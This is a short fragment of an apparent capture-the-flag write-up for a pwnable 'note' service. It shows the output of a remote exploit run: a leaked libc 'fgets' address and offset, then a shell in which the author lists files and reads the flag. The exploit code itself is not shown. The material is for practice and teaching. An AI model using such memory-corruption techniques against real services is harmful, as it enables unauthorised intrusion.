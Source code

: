 When we run it in remote, we get:
```py
Got it! f7dee000 27 ('fgets', 4158580416)
offset is 1728
[*] Switching to interactive mode
 are fool
- Select Menu -
1. create note
2. write note
3. read note
4. delete note
5. exit
note no?
paste your note (MAX : 4096 byte)
- Select Menu -
1. create note
2. write note
3. read note
4. delete note
5. exit
$ 201527
welcome to hacker's secret menu
i'm sure 1byte overflow will be enough for you to pwn this
$ ls
flag
loader
loader.c
log
note
note.c
super.pl
$ cat flag
{flag_here}
```